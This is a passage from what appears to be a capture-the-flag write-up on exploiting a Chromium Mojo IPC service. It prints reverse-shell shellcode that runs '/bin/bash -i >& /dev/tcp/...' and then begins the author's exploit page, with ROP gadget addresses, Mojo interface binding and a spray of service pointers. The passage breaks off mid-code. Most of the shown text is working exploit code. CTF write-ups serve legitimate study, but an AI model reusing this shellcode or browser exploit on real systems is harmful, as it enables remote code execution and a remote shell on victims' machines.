 From here, we can use our favorite reverse shell shellcode. 

```
  // execve("/bin/bash", ["-c", "/bin/bash -i >& /dev/tcp..."], 0)
  shellcode += "\x48\x31\xd2\x52\x48\x8d\x05\x31\x00\x00\x00\x50\x48\x8d\x05\x26\x00\x00\x00\x50\x48\x8d\x05\x14\x00\x00\x00\x50\x48\x89\xe6\x48\x8d\x3d\x09\x00\x00\x00\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x2d\x63\x00/bin/bash -i >& /dev/tcp/localhost/1337 0>&1\x00"
```

The reference solution took around 12 hours to code, so it might have been a bit tight for a two day CTF. It runs in approximately 2 seconds locally with a 50% reliability. Against remote it took 10 seconds, which explains the more generous timeout. 

My solution can be found below: 

```javascript
<script src="mojo_bindings.js"></script>
<script src="third_party/blink/public/mojom/csp/cat_service_provider.mojom.js"></script>
<script src="third_party/blink/public/mojom/blob/blob_registry.mojom.js"></script>
<script>
const xchg = 0x000000000b4362b4n;
const prax = 0x00000000031a164dn;
const crax = 0x000000000312500fn;
const prdi = 0x000000000325b9fdn;
const prsi = 0x0000000003202e6en;
const prdx = 0x00000000033c674bn;
const prcx = 0x000000000323c5b0n;
const pr9 = 0x000000000b48e123n;
const pr8rbp = 0x000000000331f8ecn;
const sysplt = 0xb619400n;
const memcpyplt = 0xb619320n;


const log = msg => {
  fetch("/log?log=" + encodeURIComponent(msg) + "&a=" + Math.random());
}

window.onerror = (msg, src, line, col) => {
  log(msg + ";" + src + ";" + line + ";" + col);
}

const wait = time => new Promise(res => setTimeout(res, time))

const fact = new blink.mojom.CATServiceProviderPtr();
Mojo.bindInterface(blink.mojom.CATServiceProvider.name, mojo.makeRequest(fact).handle);

log("-- " + Math.random());

const noGC = [];

(async () => {
try{
  log("starting")

  const ptrs = [];
  for(let i = 0; i < 20; i++) {
    const ptr = new blink.mojom.CATServicePtr();
    fact.register(mojo.makeRequest(ptr), blink.mojom.CATServiceType.kDirty);

    ptrs.push(ptr);
  }
  
  const rawPtrs = [];
  for(let i = 0; i < 5; i++) {
    const ptr = new blink.mojom.CATServicePtr();
```